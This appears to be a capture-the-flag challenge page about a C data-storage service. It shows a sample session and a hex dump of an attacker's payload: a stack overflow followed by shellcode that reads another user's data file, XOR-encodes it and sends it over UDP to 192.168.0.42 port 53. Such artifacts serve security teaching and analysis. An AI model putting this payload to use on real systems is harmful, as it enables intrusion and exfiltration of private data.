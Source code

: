 If the user chooses to enter data, the program creates a new (or overwrites an
existing) file `data/<username>_data.txt`. This data file contains binary data
with the same amount of bytes as the input (assuming the terminating `\x00` byte
of C strings is included in the cipher text) …

```sh
$ ./data_storage 
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username> leeloo
found user 'leeloo' ...
password> multipass
welcome leeloo!
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 1
data> corben dallas
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 3
good bye!

$ ls data
leeloo_data.txt  leeloo_pwd.txt

$ xxd data/leeloo_data.txt 
00000000: bb78 af6d 519a 11a7 490f 7466 874a       .x.mQ...I.tf.J
```

### What happened during the attack


The attacker started to communicate with the server in a normal fashion. He 
logged in as user _evil0r_ with the password _lovebug1_. Upon being presented
with the application menu, the attacker sent the following packet contents as
his attack:

```sh
$ xxd attack_payload.bin 
00000000: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000050: bf74 615f 6461 7461 2e57 48bf 6461 7461  .ta_data.WH.data
00000060: 2f73 616e 5748 89e7 4831 f648 31d2 b802  /sanWH..H1.H1...
00000070: 0000 000f 0548 89c7 48ba 0000 0100 0100  .....H..H.......
00000080: 0000 526a 006a 006a 006a 0048 89e6 48ba  ..Rj.j.j.j.H..H.
00000090: 0100 0000 0000 0020 5248 ba00 0000 1337  ....... RH.....7
000000a0: 0100 0052 ba20 0000 00b8 0000 0000 0f05  ...R. ..........
000000b0: 4831 c981 340e efbe adde 4883 c104 4883  H1..4.....H...H.
000000c0: f920 75ef bf02 0000 00be 0200 0000 4831  . u...........H1
000000d0: d2b8 2900 0000 0f05 4889 c748 89e6 4883  ..).....H..H..H.
000000e0: c603 ba32 0000 0041 ba00 0000 006a 0049  ...2...A.....j.I
000000f0: b802 0000 35c0 a800 2a41 5049 89e0 41b9  ....5...*API..A.
00000100: 1000 0000 b82c 0000 000f 05bf 0000 0000  .....,..........
00000110: b83c 0000 000f 050a                      .<......
```


[Rockyou data breach]: https://en.wikipedia.org/wiki/RockYou#Data_breach